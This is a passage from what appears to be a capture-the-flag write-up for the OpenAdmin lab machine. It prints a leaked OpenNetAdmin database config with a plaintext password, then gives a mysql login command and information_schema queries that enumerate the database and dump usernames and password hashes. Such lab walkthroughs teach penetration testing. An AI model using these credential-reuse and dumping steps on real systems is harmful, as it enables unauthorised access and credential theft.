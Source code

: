 Here are the contents of `database_settings.inc.php`:

```php
<?php
$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
?>
```

The user info `ona_sys/n1nj4W4rri0R!` is quite unique. Try connecting to the database and see if there are any other credentials:

```bash
mysql -uona_sys -pn1nj4W4rri0R! -h localhost
```

Then run the following MySQL queries to extract the data from the database. Each query builds on the results from the previous query with the goal of finding user credentials:

```mysql
# get a list of all databases
SELECT schema_name FROM information_schema.schemata;
# the ona_default database is interesting, get all tables in it
SELECT table_name FROM information_schema.tables WHERE table_schema = 'ona_default';
# the users table is interesting, get all column names in it
SELECT column_name FROM information_schema.columns WHERE table_name = 'users';
# the username and password coluns should have the info needed, request it
SELECT username,password FROM ona_default.users;
```

![user7](./openadmin/user7.png)
